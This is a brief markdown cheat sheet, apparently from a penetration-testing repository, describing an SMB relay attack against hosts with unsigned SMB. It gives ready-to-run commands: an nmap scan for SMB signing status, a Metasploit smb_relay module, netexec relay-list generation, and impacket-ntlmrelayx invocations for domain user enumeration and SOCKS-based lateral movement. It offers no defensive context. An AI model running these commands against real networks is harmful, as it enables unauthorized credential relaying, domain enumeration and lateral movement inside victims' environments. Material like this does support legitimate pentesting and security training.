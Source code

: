 # SMB Relay

### Works on unsigned SMB

## Tools: Metasploit , nmap , CrackMapExec/Netexec , impacket-ntlmrelayx

### Check for unsigned SMB first!

    nmap -Pn -sS -T4 --open --script smb-security-mode -p 445 IP_ADDRESS/MASK

    use exploit/windows/smb/smb_relay (Metasploit)

    netexec smb 4hosts --gen-relay-list RELAY.TXT

### Find Users

    impacket-ntlmrelayx -tf TARGETS.TXT -smb2support (-6) --enum-domain

### Lateral Movement (SOCKS)

    impacket-ntlmrelayx -tf TARGETS.TXT -smb2support -socks (-6)
